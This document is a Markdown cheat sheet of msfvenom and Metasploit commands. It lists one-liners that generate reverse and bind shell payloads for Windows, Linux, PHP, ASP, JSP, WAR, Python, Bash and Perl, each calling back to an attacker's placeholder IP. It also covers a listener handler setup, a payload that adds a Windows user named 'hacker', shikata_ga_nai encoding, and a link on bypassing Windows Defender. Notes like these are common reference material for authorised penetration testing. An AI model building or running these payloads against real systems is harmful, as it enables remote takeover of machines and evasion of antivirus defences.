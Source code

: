 ```yaml
---
title: Msfvenom
updated: 2020-05-07 23:29:11Z
created: 2019-11-27 02:15:20Z
---
```


## Creating a payload

- msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]

To view list of payloads: msfvenom -l payloads
To view the payload options: msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

## Creating a payload with encoding

- msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile

## Creating a payload using a template

- msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/